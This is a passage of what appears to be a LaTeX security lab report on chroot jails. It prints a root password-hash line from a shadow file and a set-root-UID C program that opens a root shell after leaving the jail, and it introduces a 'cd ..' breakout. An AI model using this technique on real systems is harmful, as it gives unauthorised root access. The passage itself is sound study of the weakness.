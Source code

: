 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vspace{1em}
\begin{lstlisting}
root:$6$5MfvmFOaDU$CVt7jU9wJRYz3K98EklAJqp8RMG5NvReUSVK7ctVvc2VOn
   YVrvyTfXaIgHn2xQS78foEJZBq2oCIqwfdNp.2V1:14400:0:99999:7:::
\end{lstlisting}
\vspace{1em}
\begin{lstlisting}
root:x:0:0:root:/root:/bin/bash
\end{lstlisting}

\subsubsection{Preserve root privileges after exiting jail}
It is possible to regain root privileges once exited the jail. To this end, we write simple \texttt{C} program shown in \textbf{Listing~\ref{chroot:regainingroot}}. Once compiled, we apply set-root-UID to it by executing \texttt{chown root prog} and \texttt{chmod 4755 prog}.\\
After leaving \texttt{chroot} jail we execute this program and gain root privileges in non-restricted environment. This technique works as set-root-UID done in jail is not removed while exiting it hence normal user can run this script which in turn calls \texttt{su -c "/bin/bash"} as a root resulting in root shell.

\vspace{1em}
\begin{lstlisting}
int main(){
  setuid(0);
  system("su -c \"/bin/bash\"");
  return 0;
}
\end{lstlisting}

\subsection{Breaking out of a \texttt{chroot} jail}
\subsubsection{\texttt{cd ..} out of jail}
It is possible to see full directory list of an operating system from within \texttt{chroot} jail. The full \texttt{C} code that we prepared is available in \textbf{Appendix~\ref{app:chroot:cd}} and the quick overview is presented below in \textbf{Algorithm~\ref{alg:chroot:cd}}.
\end{document}
